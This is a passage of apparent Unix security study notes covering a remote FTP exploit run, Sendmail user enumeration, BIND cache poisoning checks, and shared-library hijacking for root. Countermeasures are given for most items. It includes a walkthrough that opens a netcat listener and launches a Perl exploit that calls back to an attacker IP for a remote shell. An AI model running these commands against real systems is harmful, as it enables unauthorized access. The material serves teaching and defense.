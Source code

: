   We first need to create a netcat listener for the exploit to call back to:

  ```sh
  nc −vlp 443
  ```

  Now we can run the exploit:

  ```sh
  perl roaringbeast.pl 0 ftp ftp 192.168.1.25 443
  ```
- &#128163; `Sendmail`: Sendmail is a **Mail Transfer Agent (MTA)** that is used on many UNIX systems. Sendmail is one of the most maligned programs in use (used to gain  access to thousands of systems). We can use `VRFY` and `EXPN` commands to identify user accounts.
  Many vulnerabilities are present related to remote buffer overflow conditions and input validation attacks have been identified.

  &#9940; ` Countermeasures`: The best defense for sendmail attacks is to **disable sendmail** if you are not using it to receive mail over a network. If you must run sendmail, ensure that you are **using the latest version** with all relevant security patches. Finally, consider using a more secure MTA such as **qmail** or **postfix**.
- &#128163; `DNS Cache Poisoning`: Numerous security and availability issues have been associated with `BIND`. The following example highlights one of the latest cache poisoning attacks. This technique is used by hackers to **trick clients into contacting a malicious server instead of the intended system**. That is to say, all  requests are resolved and redirected to a system the hacker owns. 

	> **Note: BIND (Berkeley Internet Name Domain)** is the most widely used DNS server software on the internet.

	
	In 2008, Dan Kaminsky latest cache-poisoning attack against DNS was grabbing headlines.
	To check if the DNS has this potential vulnerability perform the following enumeration:

  ```sh
  dig @192.168.56.101 version.bind chaos txt
  ```

  &#9940; ` Countermeasures`: For any system that is not being used as a DNS server, you should **disable and remove BIND**. Ensure the version of BIND you are using is current and patched for related security flaws.

### Q: What are shared libraries in Unix? Describe the general advantages of shared libraries, and the possible Cybersecurity issues that they introduce. Assume that a root program called `program1`, which uses a shared library `libshared.so`, is executed every time at system startup. If `libshared.so` is not present in the system, under which conditions can you exploit this to run arbitrary code with root privileges? How would you do it?

A: A shared library is a **shared collection of subroutines** that can be recalled from multiple programs. This has the advantage of saving memory and making it easier to maintain code, because updating shared libraries means updating the programs that use them. But it also means that if an attacker manages to modify a shared library or provide an alternative to the program via the environment variable, he/she can then get root access.

Shared libraries are mainly found in:
